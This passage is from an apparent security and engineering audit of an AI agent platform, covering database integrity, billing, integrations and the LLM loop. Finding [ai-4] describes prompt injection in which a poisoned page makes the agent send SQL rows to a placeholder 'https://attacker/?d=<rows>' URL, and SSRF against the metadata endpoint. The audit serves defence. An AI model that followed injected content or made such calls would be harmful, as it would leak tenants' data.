- [runtime-25] `src/lib/orchestrator.ts:378`: the orchestrator emits no logs, metrics or traces. Add pino logs carrying `run_id`/`org_id`/`agent_id`, OpenTelemetry spans for each model and tool call, and metrics for runs active, queue depth and stalled runs. Record the Anthropic `request-id`.
- [runtime-26] `README.md:188`: the concurrency guarantees the README claims (lease, exactly-once cron, double approval) have no tests. Add vitest with testcontainers-postgres, a fake Anthropic client and property tests for `schedule.ts`, and run them in CI.

#### Low

The approvals and run_steps tables lack uniqueness: nothing enforces one approval per `(run_id, tool_use_id)` or one step per `(run_id, idx)`, and `idx` is assigned by read-then-write. Add those unique constraints and `on conflict do nothing` [runtime-28] (`src/lib/orchestrator.ts:74`). Runs parked in `awaiting_approval` never expire or escalate; add `approvals.expires_at` and a reaper [runtime-27] (`src/lib/orchestrator.ts:360`). A schedule that can never fire silently disarms its agent; treat a null `next` as a parse failure and show a caveat [runtime-31] (`src/lib/schedule.ts:72`). The schedule view displays the next run using a different timezone from the one used to fire it; return `next_run_at` as the only source of truth [runtime-30] (`src/app/api/agents/[id]/schedule/route.ts:28`). The Anthropic client cache is an unbounded `Map` keyed by the raw API key; use an LRU keyed by a hash of the key [runtime-29] (`src/lib/ai.ts:35`). On the public invoke path, output DLP does nothing and input is masked twice; centralise this in a `dlpOptionsFor(spec)` helper [runtime-32] (`src/app/api/v1/agents/[id]/invoke/route.ts:246`).

### 4.4 Data & persistence

The data layer is a hand-written `pg` wrapper over one idempotent `db/schema.sql` that is re-applied on every deploy, with raw SQL strings throughout and no migrations, typed queries, transactions, RLS or instrumentation. That design has already produced a privilege-restoring backfill, a route that fails on every call because it queries non-existent columns, and financial totals that shrink when an agent is deleted. Tenant isolation depends on roughly 200 hand-written `WHERE org_id` clauses. The priorities are versioned migrations, a transaction helper, a typed query layer and an append-only spend ledger.

#### Critical and high

- **Re-running `schema.sql` gives removed members their access back** [data-1], `db/schema.sql:43`. The backfill `insert into memberships … select u.id, u.org_id, u.role from users u on conflict do nothing` runs every time `db:setup` runs. `README.md:122` says to run it on every deploy. An invited signup stores the inviting org and role on `users` (`src/app/api/auth/route.ts:47-53`). Removing that member deletes only the membership row (`src/app/api/members/[id]/route.ts:46-57`). The next deploy re-inserts it and `schema.sql:49` resets `active_org_id`. The ex-member gets back their old workspace and role, with no audit entry. Only invited users are affected, and only when the script is re-applied by hand; the Dockerfile does not run it. **Fix:** adopt versioned run-once migrations (node-pg-migrate, drizzle-kit or Atlas) with a `schema_migrations` table. Turn the backfill into a one-shot migration and drop `users.org_id` and `users.role`, so memberships are the only source of access.

- **The schedule view queries columns that do not exist and fails on every request** [data-4] (also [runtime-18]), `src/app/api/agents/[id]/schedule/route.ts:18`. It selects `finished_at` and `cost_cents`, but the columns are `ended_at` and `cost_usd` (`db/schema.sql:162`, `:173`). Postgres raises 42703 on every GET, and `ScheduleConfigView.tsx:277` also reads `cost_cents`. The TDD (`docs/TECHNICAL_DESIGN_DOCUMENT.md:135`) documents a `monthly_spend_cap_cents` column that also does not exist. Scheduled execution itself still works. **Fix:** correct the column names. Then adopt Drizzle or Kysely with a generated schema, or pgtyped, so a query that drifts from the schema fails `tsc`. Add a CI smoke test that calls every GET route against a migrated database.

- **The public invoke endpoint has no idempotency: a retry after a timeout starts a second paid run** [gap-public-api-contract-and-commercial-controls-2], `src/app/api/v1/agents/[id]/invoke/route.ts:222`. The request blocks for up to 300s, and the handler ignores `req.signal`, so a run continues after its client times out at 30–100s. The client then retries, `startRun` inserts a fresh row (`orchestrator.ts:118`), and tokens are billed again. Tools that run without an approval gate (`send_email`, `post_message`, `sql_execute`, `http_request`) execute again, sending duplicate emails and writing duplicate rows. **Fix:** support an `Idempotency-Key` header following the IETF draft and Stripe's semantics. Store keys in an `api_idempotency` table with columns `(org_id, key)` PK, `request_hash`, `run_id`, `status`, `response_body` and `expires_at` (24h), claimed with `INSERT … ON CONFLICT DO NOTHING`. A replay with the same body gets the stored response, or 202 with the existing `runId` if the run is still going. A replay with a different body gets 422. Pair this with async execution ([runtime-3]).

- **The pool has no error handler, TLS or timeouts, so an idle-client error kills the process** [data-6] (also [ops-5]), `src/lib/db.ts:5`. Without `pool.on('error')`, a dead idle socket (failover, RDS maintenance, a PgBouncer restart) is an unhandled `EventEmitter` error. It takes down Next.js and every in-flight run. The pool sets no `ssl`, so traffic is plaintext unless the URL requires TLS. Without `statement_timeout`, `idleTimeoutMillis` or `connectionTimeoutMillis`, one hung query holds one of only 10 slots indefinitely. **Fix:** set `ssl: { rejectUnauthorized: true }`, `statement_timeout` and `idle_in_transaction_session_timeout` via `options`, plus the connection timeouts. Log from `pool.on('error')` and call `pool.end()` on SIGTERM. Add PgBouncer or RDS Proxy once there is more than one instance.

- **Request handlers run DDL, eval tables are missing from `schema.sql`, and an in-memory fallback hides outages** [data-11] (also [ai-25]), `src/lib/evals.ts:150`. `ensureEvalTables()` issues `create table` at runtime, and `grep agent_eval db/schema.sql` finds nothing. Restoring from `schema.sql` therefore loses those tables, and an app role without CREATE privilege breaks evals. `src/lib/apps.ts:96-120` follows the same pattern and, on any DB error, silently reads and writes tenant data in a process-local `Map` (`:93`). That data is lost on restart, invisible to other instances, and the user gets a false success. **Fix:** remove runtime DDL and the fallbacks, put every table in migrations, grant the runtime role only DML, fail fast on DB errors, and report them from `/api/health`.

- **Spend is derived from mutable run rows: deleting an agent lowers month-to-date spend** [data-7], `src/lib/spend.ts:29`. Runs cascade-delete with their agent (`db/schema.sql:150`, `src/app/api/agents/[id]/route.ts:81`), so an owner can reset the cap by deleting a heavy agent. `cost_usd` is written only in `finish()` (`orchestrator.ts:524-531`). The `awaiting_approval` path (`:355`) saves tokens but not cost. No lock covers `budgetCheck`, so concurrent runs pass against the same stale total. **Fix:** add an append-only `spend_ledger` written on every model call, plus a `spend_periods` row per org updated in the same transaction. Enforce the cap with a conditional `UPDATE` on that row. Never cascade-delete financial records; soft-delete agents with `deleted_at`.

#### Medium

*Schema management and integrity*
- [data-10] `db/schema.sql:91`: there is no migration system, just one mutable file with backfills and destructive drops, applied by hand. Use numbered migrations run once by a release job under an advisory lock.
- [gap-tenant-lifecycle-offboarding-1] `db/schema.sql:13`: `users.org_id … ON DELETE CASCADE` means deleting an org deletes user accounts that also belong to other tenants, or the delete fails on FKs from other tenants. Make users global identities with memberships as the only link.
- [data-21] `db/schema.sql:118`: no FK to `users` has an `ON DELETE` rule, so erasing a user for GDPR/CCPA requires manual cleanup. Choose `set null` or reassignment per column, and add `users.deleted_at` plus an anonymisation job.
- [data-15] `db/schema.sql:307`: indexes are missing for the actual queries: `approvals(run_id)`, `connections(org_id, kind)`, `documents(org_id, created_at desc)`, `users(org_id)`, a unique index on `users(lower(email))`, and a partial index on `runs(status, locked_at)`. Enable `pg_stat_statements`.
- [data-22] `src/lib/tools.ts:818`: agent names are not unique per org, so delegation by name resolves to an arbitrary row. Add a unique `(org_id, lower(name))` index, return 409 on conflict, and reference delegate agents by id.
- [data-8] `src/app/api/agents/[id]/publish/route.ts:47`: publish runs two autocommit statements, and a partial failure leaves the agent permanently unpublishable. Add a `withTx` helper and compute the version under `for update`.
- [data-9] `src/app/api/auth/route.ts:49`: registration runs four autocommit statements, and a failure midway leaves a user who can never sign in. Wrap it in one transaction.
- [data-24] `src/app/api/connections/[id]/heartbeat/route.ts:58`: `connections.config` is overwritten with read-modify-write, so concurrent updates are lost. Use `config || $1::jsonb`, give health data its own table, and validate config with zod per connection kind.
- [data-23] `src/app/api/skills/route.ts:19`: the skills list runs a jsonb containment scan over every agent and version for each skill. Add `agent_skills` and `agent_sources` join tables, maintained on save and publish.

*Spec and version evolution*
- [gap-agentspec-schema-evolution-1] `src/lib/types.ts:83`: `AgentSpec` has no `schemaVersion`, and no read path validates or upgrades stored specs. Add zod schemas per version and a pure `upgradeSpec` chain.
- [gap-agentspec-schema-evolution-6] `scripts/seed-skills.mjs:131`: the seed script rewrites published `agent_versions.spec` in place. Block updates to versions with a `BEFORE UPDATE OR DELETE` trigger and add `spec_sha256`.
- [gap-agentspec-schema-evolution-12] `src/lib/types.ts:60`: input types are re-guessed by regex on every read, so a code change silently alters published versions. Scheduled runs also skip required-input checks. Freeze the guessing in a one-time migration step and persist its output.
- [gap-agentspec-schema-evolution-16] `src/app/api/shares/[id]/route.ts:44`: pending shares keep specs in the old shape indefinitely, and accepting one does only a top-level merge. Run `upgradeSpec` and the zod `.strip()` on accept, and add `expires_at`.
- [gap-agentspec-schema-evolution-5] `src/lib/orchestrator.ts:437`: approvals pending across a deploy execute old payloads against new tool code, or crash if the tool is gone. Store a tool schema hash on each approval and re-validate the payload with ajv before executing.

*Growth, retention and storage*
- [data-13] `db/schema.sql:196`: append-only tables grow without bound. Cap the step payloads stored inline and move large bodies to object storage, set retention per table, and range-partition `run_steps` and `audit_events`.
- [data-14] `src/lib/orchestrator.ts:375`: `runs.state` holds the full transcript and is rewritten on every iteration. Append messages to `run_steps` or `run_messages` and null `state` when the run finishes.
- [data-16] `src/app/api/agents/route.ts:11`: list endpoints are unbounded or hard-capped with no cursor, and the agents list runs a correlated COUNT per row. Use keyset pagination, explicit column lists and precomputed counters.
- [data-25] `README.md:122`: there is no backup, PITR, restore test or DR plan, and document rows store absolute paths on the host. Use managed Postgres with PITR, document RPO and RTO, and store S3 bucket and key (`src/lib/aws-s3.ts` already exists) instead of paths.
- [gap-tenant-lifecycle-offboarding-14] `src/lib/tools.ts:375`: files on disk are not tied to the data lifecycle. Store object keys under a `tenants/<orgId>/` prefix, add `run_id`/`agent_id` FKs, and delete objects through a `blob_deletions` outbox.

*Webhooks, public API input and billing*
- [data-27] `src/app/api/webhooks/[id]/route.ts:31`: the public receiver inserts payloads with no size limit, no `org_id` and no retention. Verify HMAC signatures, cap bodies at about 256KB and store only allow-listed headers.
- [gap-public-api-contract-and-commercial-controls-10] `src/app/api/webhooks/[id]/route.ts:31`: provider retries create duplicate events. Add a `delivery_id` column with a unique `(connection_id, delivery_id)` constraint and use `ON CONFLICT DO NOTHING`.
- [gap-public-api-contract-and-commercial-controls-15] `src/app/api/v1/agents/[id]/invoke/route.ts:200`: `parameters` never reach the model, required inputs are not enforced, and a malformed body starts a paid run with default input. Validate with zod, return problem+json errors and reuse `missingRequired`/`composeRunInput`.
- [gap-public-api-contract-and-commercial-controls-7] `src/lib/spend.ts:83`: there is no usage ledger, no closed historical periods and no export, so spend data cannot be used for billing. Add a `usage_events` table in integer micros with a rate-card version.

*Isolation, audit and observability*
- [data-12] `src/lib/auth.ts:93`: tenant isolation is hand-written WHERE clauses keyed off a mutable "active org" column. Carry the tenant in the request, enable RLS on `current_setting('app.org_id')`, and `set local` it inside the transaction helper.
- [data-17] `src/lib/ai.ts:52`: the audit trail is append-only only by convention and is written outside the transaction it records. Write audit rows in that transaction, revoke UPDATE/DELETE, add a trigger that raises on changes, and stream to storage with S3 Object Lock.
- [data-26] `src/lib/db.ts:15`: queries have no timing, logging, spans or error mapping. Wrap `q()`/`one()` with pino and OTel, and map error codes 23505, 23503 and 42703 to typed errors.

#### Low

Several constraints are weak or missing. `published_ver` is not an FK, approvals are not unique per `tool_use_id`, and `trigger`/`status` are free text [data-20] (`db/schema.sql:120`). `orgs.timezone` is unvalidated free text with no setter [data-28] (`db/schema.sql:128`). `apps.permissions` has different defaults in the schema and in code, and doubles as a "proxy" flag [data-32] (`src/lib/apps.ts:218`). Money crosses into JavaScript as `float8` doubles; keep amounts numeric or use integer micros [data-29] (`src/lib/spend.ts:37`). `select *` on wide jsonb rows should become explicit columns, enforced by a lint rule [data-31] (`src/app/api/runs/[id]/route.ts:16`). `.env.example` has a Prisma-style `?schema=public`, `pgcrypto` is loaded without being needed, and the setup script connects without TLS [data-30] (`.env.example:2`). Deleting a skill counts only drafts as affected, so published versions lose the skill silently; soft-delete skills instead [gap-agentspec-schema-evolution-14] (`src/app/api/skills/[id]/route.ts:88`). Deleting the sending org cascades away the share records the recipient relies on for provenance; use `on delete set null` [gap-tenant-lifecycle-offboarding-17] (`db/schema.sql:235`). The in-memory apps store and the eval tables created at runtime hold tenant data that a purge built from the schema would miss. Keep a registry of tenant-scoped tables, checked in CI [gap-tenant-lifecycle-offboarding-15] (`src/lib/apps.ts:251`).

### 4.5 Integrations & reliability

Outbound integrations are mostly hand-rolled: a raw `fetch` to the Anthropic API for search, a custom RESP client for Redis, a custom SigV4 signer, and an "MCP client" that does not speak MCP. The HTTP calls have no shared policy for timeouts, retries, response size or error classification. The public API has no asynchronous contract, and the approval flow has a race that can strand runs. The fix is the same throughout: use maintained SDKs, put one resilience layer in front of all outbound calls, and move notifications and callbacks onto an outbox.

#### Critical and high

- **Public API reports paused, failed and over-cap runs as HTTP 200 with made-up output** [gap-public-api-contract-and-commercial-controls-4], `src/app/api/v1/agents/[id]/invoke/route.ts:242`. The handler returns `output || "Run initiated and processing in background."` and `status || "completed"`, and never includes `runs.error`. The TDD documents `GET /api/v1/runs/:id` and `POST /api/v1/approvals/:id/decide` (`docs/TECHNICAL_DESIGN_DOCUMENT.md:488-489`), but neither exists. `/api/runs/[id]` requires a cookie session, so an API client cannot learn how a paused run ended. **Fix:** implement the long-running-operation pattern. `POST /v1/agents/{id}/runs` returns 202 with `Location: /v1/runs/{id}`. `GET /v1/runs/{id}` returns a typed status (`queued|running|awaiting_approval|succeeded|failed|cancelled`) with output, `error{code,message}` and usage. Optionally support `Prefer: wait=30`. Deliver HMAC-signed, retried callbacks for `run.completed`, `run.awaiting_approval` and `run.failed`, and add `POST /v1/runs/{id}/cancel`.

- **The canvas bridge accepts messages from any origin and replies with `'*'`** [integrations-30], `src/components/AppCanvasViewer.tsx:164-228`. Same root cause as [frontend-1] in 4.7, which gives the verified impact and the fix. Replies are posted with `'*'` (`:224-228`), but they carry only a fabricated id and fixed text, not run output.

- **The Anthropic client uses SDK defaults: a 10-minute timeout, 2 retries and no streaming** [integrations-4] (also [runtime-13]), `src/lib/ai.ts:40`. `new Anthropic({ apiKey })` makes each `messages.create` (`orchestrator.ts:240`) wait up to 600s, and each retry restarts that timer, so one call can take up to about 30 minutes inside a request that has 300s. The code never checks for `RateLimitError` or `APIConnectionError`, so a transient 429 permanently fails a scheduled run. **Fix:** set explicit `timeout` (for example 120s) and `maxRetries`, pass `{ signal }` derived from the run's remaining budget, and use `messages.stream(...).finalMessage()`. Handle typed errors: on 429, resume later with backoff that honours `retry-after`; retry 5xx and connection errors with jitter; fail fast on 400. Run model calls in the worker, not the request.

- **An approval can be decided before its run is parked, which strands the run** [gap-approval-governance-and-notification-delivery-1], `src/lib/orchestrator.ts:311`. The `approvals` row is committed and visible immediately. The run is set to `awaiting_approval` only after every other `tool_use` in the same turn finishes, and that can take minutes (a synchronous `invoke_agent` child, or `fetch_url`/`sql_query` with no timeout). If someone decides in that window, the CAS in `resumeAfterApprovals` (`:390`) matches no row and the API still returns `{ok:true}`. The run then parks with no pending approvals and never resumes. **Fix:** insert all approvals and park the run in one transaction at the end of the turn, or filter the GET on `r.status='awaiting_approval'`. When the CAS fails, enqueue a durable resume. Add a reconciler for `awaiting_approval` runs with zero pending approvals.

- **The Redis tool disables TLS certificate verification** [integrations-8] (also [surface-19], [ops-21]), `src/lib/redis-client.ts:74`. With `rejectUnauthorized: false`, customer Redis passwords sent via `AUTH` (`:100`) can be captured by an on-path attacker, and the connection test still reports "ok". **Fix:** set `rejectUnauthorized: true` with an optional CA bundle per connection, and replace the hand-rolled client with `ioredis` or `node-redis`.

- **`web_search` bypasses the SDK, has no timeout, and its cost is never counted** [integrations-6] (also [ai-17]), `src/lib/tools.ts:119`. Each search is a second model call via raw `fetch` (up to 4 searches and 1500 output tokens), and `data.usage` is discarded (`:138-151`). `runs.cost_usd`, the cap check and the Spend page all under-report, so search-heavy agents can exceed the cap without limit. The call has no `AbortSignal` or retries, and `res.json()` throws on a non-JSON 5xx. It uses `web_search_20250305` rather than `web_search_20260209`. The same pattern appears in `src/lib/adk-sandbox.ts:270` and `src/app/api/connections/[id]/route.ts:64`. **Fix:** call through the shared client, add `usage` plus `server_tool_use.web_search_requests` to the run's counters, and price searches per 1,000.

- **Response bodies are read fully into memory before they are truncated** [integrations-9], `src/lib/tools.ts:172`. `fetch_url` reads the whole body with `await res.text()` and only then clips it to 12,000 characters. `http_request` (`:290`) returns the entire parsed JSON, which `addStep` persists without clipping into `run_steps.output` (`orchestrator.ts:331-338`). The app and v1 proxies call `arrayBuffer()` with no timeout (`src/app/api/apps/[id]/proxy/[[...path]]/route.ts:202`, `src/app/api/v1/[...path]/route.ts:82`). A few concurrent large downloads can exhaust memory in the single process. **Fix:** check `content-length` and stream through a byte-counting transform that aborts past a cap (about 2 MB). Reject non-text types in `fetch_url`, cap what is persisted and move large outputs to object storage. The proxies should return `new Response(upstream.body)` with a timeout.

#### Medium

*Resilience of outbound calls*
- [integrations-14] `src/lib/tools.ts:562`: no third-party call has retry, backoff, jitter, `Retry-After` handling or a circuit breaker. Add cockatiel or p-retry with full jitter, retry only idempotent calls, and keep a breaker per connection.
- [integrations-19] `src/lib/orchestrator.ts:340`: there is no error taxonomy. Upstream bodies are interpolated verbatim, fed to the model and persisted. Add a `ToolError` with `code`, `retryable`, `upstreamStatus` and a sanitised `safeMessage`.
- [integrations-11] `src/lib/tools.ts:348`: Slack `post_message` and the Slack connection test have no timeout. Add `AbortSignal.timeout(10_000)`, and later honour `Retry-After` on 429.
- [integrations-12] `src/lib/tools.ts:319`: a nodemailer transport is created for every send, with no timeouts and only opportunistic TLS. Set connection, greeting, socket and DNS timeouts, `requireTLS`, and `rejectUnauthorized: true`, and cache one pooled transport per connection.
- [integrations-26] `src/lib/tools.ts:200`: customer Postgres connections leave TLS to whatever DSN the tenant entered. Default to verified TLS with an explicit opt-out, and keep a small `pg.Pool` per connection.
- [integrations-17] `src/lib/redis-client.ts:128`: the RESP parser assumes the whole reply arrives in the first TCP chunk, so it returns truncated bulk strings. Replace it with ioredis, using `commandTimeout` and `maxRetriesPerRequest`.
- [integrations-18] `src/lib/aws-s3.ts:99`: the SigV4 canonical URI is built with `encodeURI`, so keys with reserved characters fail with SignatureDoesNotMatch. Use `@aws-sdk/client-s3` or `@aws-sdk/signature-v4`.
- [integrations-28] `src/lib/tools.ts:606`: vendor endpoints and rate-limit behaviour are hard-coded. Put each vendor behind a module, use `@octokit/rest` with its throttling plugin and `jira.js`, and add contract tests with nock or msw.

*MCP and connection health*
- [integrations-13] `src/lib/mcp-client.ts:177`: the MCP client does not implement MCP. It uses a non-standard endpoint, skips the handshake, invents tool lists when discovery fails, and discovered tools can never be executed. Use `@modelcontextprotocol/sdk` with `StreamableHTTPClientTransport` and namespaced `mcp__<conn>__<tool>` tools.
- [integrations-15] `src/app/api/connections/[id]/heartbeat/route.ts:41`: heartbeat reports made-up health for Anthropic, Gemini and other kinds, pings MCP and HTTP endpoints without authentication, and races mcp-discover when writing the config JSON. Reuse the per-kind connection tests, report kinds without a test as "unknown", and store health in its own table.
- [gap-agentspec-schema-evolution-13] `src/app/api/connections/[id]/route.ts:12`: deleting a connection silently breaks every published version that uses it, and the prompt then lists a raw UUID as a source. Track dependencies at publish time, and block the delete or require confirmation.
- [gap-agentspec-schema-evolution-4] `src/lib/tools.ts:965`: tools removed from `TOOLS` disappear from published agents, but the prompt still advertises them. Keep tombstones and an alias map for renames, and fail fast at run start when a tool is missing.

*Public API contract*
- [gap-public-api-contract-and-commercial-controls-9] `src/app/api/v1/agents/[id]/invoke/route.ts:174`: the rate limit is counted twice per call, an overflow returns 500, TPM is never enforced, and the limit is keyed on the agent instead of the caller. Rate-limit once at the edge per `(org_id, api_key_id)` using GCRA or a token bucket, and charge TPM from actual usage.
- [gap-agentspec-schema-evolution-15] `src/app/api/v1/agents/[id]/invoke/route.ts:172`: defaults for later-added fields differ depending on spec age and entry point, and v1 counts each call twice. Apply defaults once, in `upgradeSpec`.
- [gap-public-api-contract-and-commercial-controls-14] `src/app/api/v1/agents/[id]/invoke/route.ts:160`: callers cannot pin an agent version, and the `version: "published"` field in the snippets is ignored. Accept `agent_version` or an alias, record the resolved version, and add a Stripe-style `API-Version` header.
- [gap-public-api-contract-and-commercial-controls-12] `src/app/api/webhooks/[id]/route.ts:38`: Slack's `url_verification` challenge is not handled, so the Slack setup the UI recommends cannot succeed. Add a receiver adapter per provider: Slack signing secret, GitHub `X-Hub-Signature-256`, `Stripe-Signature` and Standard Webhooks.

*Approvals and notifications*
- [gap-approval-governance-and-notification-delivery-8] `src/lib/orchestrator.ts:407`: resumed runs lose `runId` and `agentId` from the tool context, so an approved `invoke_agent` bypasses the depth and self-delegation guards and has no parent. Build the context in one factory and persist `root_run_id` and depth.
- [gap-approval-governance-and-notification-delivery-9] `src/lib/notify.ts:127`: notifications are sent once, outside any transaction, with no retry or dedupe, so a lost approval notice silently stalls the run. Use a `notification_outbox` drained by a worker with `FOR UPDATE SKIP LOCKED`.
- [gap-approval-governance-and-notification-delivery-12] `src/lib/notify.ts:75`: system notifications go out through a tenant's agent connection picked with a nondeterministic `limit 1`. Use a platform transactional email provider and an explicit notification channel setting.
- [gap-agentspec-schema-evolution-2] `src/lib/orchestrator.ts:204`: errors from a malformed spec are thrown outside `advance()`'s try block, leaving the run on `running` with a fresh lease. Widen the try so it always reaches `finish()`, and validate the spec in `startRun`.

#### Low

When the connect succeeds but the probe query fails, heartbeat and the connection test leak their `pg` Client; use try/finally or a shared `withCustomerPg` helper [integrations-16] (`src/app/api/connections/[id]/heartbeat/route.ts:25`). The codebase has 38 empty catch blocks and 44 `.catch(() =>` sites, and outbound calls carry no structured logs or correlation ids. Add pino, OTel HTTP/undici/pg instrumentation and a lint rule against empty catches [integrations-27] (`src/lib/mcp-client.ts:177`). `budgetCheck` sends the spend-cap notice inline and checks before acting, so two runs can both send it; emit a de-duplicated `spend_cap_reached` outbox event instead [gap-public-api-contract-and-commercial-controls-21] (`src/lib/spend.ts:46`). Member removal is not transactional, notifies nobody and has no suspended state. Add `memberships.status` and an outbox row, and pick the fallback workspace deterministically [gap-tenant-lifecycle-offboarding-16] (`src/app/api/members/[id]/route.ts:53`).

### 4.6 LLM layer & cost

There is one real agent loop (`advance()` in `src/lib/orchestrator.ts`), and it works on the happy path. Around it, two features that look like quality controls, the playground and the eval harness, return fabricated output. Several model calls are never metered, and the loop does not check why the model stopped. Commercially, the product cannot be sold in tiers or protected from runaway spend. The only limit is `monthly_cap_usd`, which the tenant sets and can remove. Compile, skill and export calls bypass it, and gated runs are under-counted.

**Where model spend is recorded today**

| Call site | Metered to `runs.cost_usd` | Counts toward cap | Notes |
|---|---|---|---|
| `src/lib/orchestrator.ts:272` (run loop) | Partly | Yes, checked before each turn (`:229`) | Usage before an approval pause is not priced [ai-8] |
| `src/lib/ai.ts:118` compileBrief | No | No | Runs when the user clicks Compile (`Builder.tsx:829-876`) |
| `src/lib/ai.ts:275` draftSkill, `:354` synthesizeSkillFromCorrection | No | No | |
| `src/lib/agent-exporter.ts:432`, `:852` | No | No | Calls `messages.create` directly |
| `src/app/api/v1/agents/[id]/invoke/route.ts:220` | Via the run | Not at admission | An over-cap call gets 200 instead of 402 [gap-public-api-contract-and-commercial-controls-8] |

**Critical and high**

*Simulated output presented as real*

- **Playground returns a hard-coded trace** [ai-3] (also runtime-19, frontend-4) — `src/app/api/agents/[id]/playground/route.ts:37`. `simulatedSteps` is built from the prompt text. It contains fixed tool outputs (`recordsFound: 24`, `variancePercent: "+3.4%"`), fake token counts (`840 + step*120`) and a made-up deliverable. `LivePlayground.tsx` shows all of this as the agent's behaviour in both "normal" and "step" modes, and there is no path that calls the model. Users debug and then publish agents based on behaviour the agent will never show. **Fix:** back the playground with a real `dry_run` of `advance()` that streams `run_steps` over SSE, or delete the route and the component. Do not ship a simulation unless it carries an unmistakable label.
- **Eval harness fabricates every result** [ai-2] — `src/lib/evals.ts:381`. `runEvalSuite()` never calls the agent or the model. The code computes `isMock` and then ignores it. Safety cases always return a canned refusal, token counts come from `Math.random()`, and the results are stored in `agent_eval_runs` as `completed`. `AgentEvalsView` then shows them as "Regression & Safety Benchmarks", and the TDD marks the feature Complete. Customers will publish agents on the strength of a 100% pass that measured nothing. **Fix:** hide the feature until it is real. To make it real, run each case through `startRun()` in dry-run mode against the target version. Score it with deterministic assertions plus an LLM-as-judge rubric (fixed rubric, temperature 0), repeat N times to measure variance, and store a per-version baseline labelled with the model id and prompt hash.

*Metering and commercial controls*

- **No plans, entitlements or provider-side limits** [gap-public-api-contract-and-commercial-controls-5] — `src/app/api/spend/route.ts:23`. `orgs` has no plan, subscription, trial or billing-customer columns (`db/schema.sql:5-9`). There is no billing integration. `monthly_cap_usd` defaults to NULL, which means unlimited, and the tenant owner can clear it. Registration (`auth/route.ts:49`), invitations (`invitations/route.ts:45`), memberships (`members/route.ts:72`) and agent creation (`agents/route.ts:26`) have no limits on seats or counts. A tenant on the operator's `ANTHROPIC_API_KEY` (`ai.ts:29-30`) has no ceiling on tokens, concurrency or storage, and the product cannot be tiered, trialled or suspended for non-payment. The cap is owner-only and is enforced when set (`runs/route.ts:59`, `orchestrator.ts:230`). **Fix:** add `plans(limits jsonb)` and `org_subscriptions(status trialing|active|past_due|canceled, period, billing ids)`. Resolve limits through one per-request `entitlements(orgId)` function. Enforce them at the route boundary and in the worker, using atomic counters (Redis INCR with TTL, or pg). Sync from Stripe Billing webhooks, verifying signatures and staying idempotent on `event.id`. Keep `monthly_cap_usd` only as an optional limit that must be ≤ the plan limit.
- **Compile, skill and export model calls are unmetered and bypass the cap** [gap-public-api-contract-and-commercial-controls-6] — `src/lib/ai.ts:118`, `:275`, `:354`, plus `src/lib/agent-exporter.ts:432`, `:852`. These calls discard `res.usage` and never call `budgetCheck`, which only `runs/route.ts:58` and `cron/route.ts:85` use. The spend is missing from the Spend page, cannot be invoiced, and continues after a workspace reaches its cap. Fixed `max_tokens` limits each call. With bring-your-own-key the vendor bills the workspace directly, so the platform's exposure is limited to workspaces on the platform key. **Fix:** route every model call through one metered client, `(orgId, purpose, actor)`. Before the call it checks entitlements and the cap. After the call it appends a `usage_events` row with model, token classes, purpose and rate-card version, and it records partial usage on error. Ban direct `client.messages.create` with an ESLint `no-restricted-syntax` rule.
- **Usage before an approval pause is never priced; cache tokens are dropped; a crash loses usage** [ai-8] — `src/lib/orchestrator.ts:356`. On pause, the code increments `input_tokens` and `output_tokens`, but not `cost_usd` or the cache columns. On resume, the counters restart at 0, and `finish()` prices only the segment after approval. Gated runs are the headline flow, and every one of them is under-billed and under-counted against the cap. If the process dies mid-run, all usage since the start of the run, or since the last pause, is lost. **Fix:** write usage and cost to the same ledger immediately after each `messages.create` returns. Derive run totals from the ledger, and make `finish()` idempotent over it instead of adding in-memory deltas.

*Loop correctness and safety*

- **`stop_reason` is never inspected** [ai-6] (also integrations-5) — `src/lib/orchestrator.ts:272`. Any response without `tool_use` finishes the run as `completed`. The loop does not distinguish these cases:
  - A report cut off at 4000 tokens (`max_tokens`) is emailed as final.
  - A `refusal` is stored as the deliverable.
  - A `pause_turn` ends the run.
  - A `tool_use` truncated mid-JSON is silently dropped.

  The exporter template has the same gap (`agent-exporter.ts:451`). **Fix:** branch on `res.stop_reason`. On `max_tokens`, continue the turn or stream with a higher limit. On `refusal`, fail the run with its category. On `pause_turn`, loop. Only `end_turn` with no tool use completes the run. Replace `any` with SDK types so the field shows up in type checks.
- **Prompt-injection defence is one sentence, and `fetch_url` gives injected content an exfiltration channel** [ai-4] — `src/lib/tools.ts:159`. Tool results are appended verbatim with no envelope or provenance, including web pages clipped at 12k characters, SQL rows, documents and GitHub files. The only defence is the system-prompt line at `ai.ts:233`. `sql_query`, `read_document`, `github_read_file` and `fetch_url` are all `risk: "low"` and run without approval. A poisoned page can therefore get the agent to GET `https://attacker/?d=<rows>`. `fetch_url` also has no block on private IPs or the metadata endpoint, which allows SSRF to `169.254.169.254`, localhost and the Postgres host. **Fix:** wrap every tool result in a typed envelope (`<tool_result source="web" trust="untrusted">`). Add an egress policy that denies RFC1918 and link-local addresses, pins DNS, and applies per-connection allowlists. Require approval for, or taint, any run that combines untrusted reads with egress. Pass fetched content through an injection classifier, such as Prompt Guard or a Haiku pass, and write detections to `audit_events`.

**Medium**

- [ai-22] `src/app/api/skills/save-and-attach/route.ts:59` — skills are a standing-instruction channel with no content validation, and synthesized skills are attached immediately with instructions to take precedence. Fix: validate drafts, include skills in the publish diff, version them, and state in the system prompt that skills never override guardrails.
- [gap-public-api-contract-and-commercial-controls-8] `src/app/api/v1/agents/[id]/invoke/route.ts:220` — public invoke skips `budgetCheck`, so an over-cap call inserts a run and returns 200. Fix: add one `admitRun()` admission step that returns typed 402 or 429 responses with `Retry-After`.
- [ai-27] `src/lib/ai.ts:35` — all tenants on the environment key share one Anthropic rate limit with no queueing or fairness, and clients are cached forever keyed by the raw secret. Fix: use per-tenant concurrency groups in a worker, Anthropic workspaces or per-tenant keys, and an LRU client cache keyed by connection id.
- [ai-15] `src/lib/ai.ts:67` — compile, draft and synthesize scrape JSON from prose with no schema validation. Fix: define a zod `AgentSpec` and use tool forcing (`tool_choice: {type:'tool'}`, available in 0.32.1) or structured outputs after upgrading.
- [ai-11] `src/lib/guardrails.ts:45` — the DLP regexes match any 9, 10 or 16-digit number and have no Luhn check, which silently corrupts business data. Fix: use a validated PII library (Presidio or Google DLP) with confidence thresholds, and log matches instead of rewriting by default.
- [ai-12] `src/lib/guardrails.ts:125` — tenant-supplied DLP regexes run on the request thread and are open to ReDoS. Fix: check them with `safe-regex2` or `re2` when saved, cap input length, and run them in a worker with a timeout.
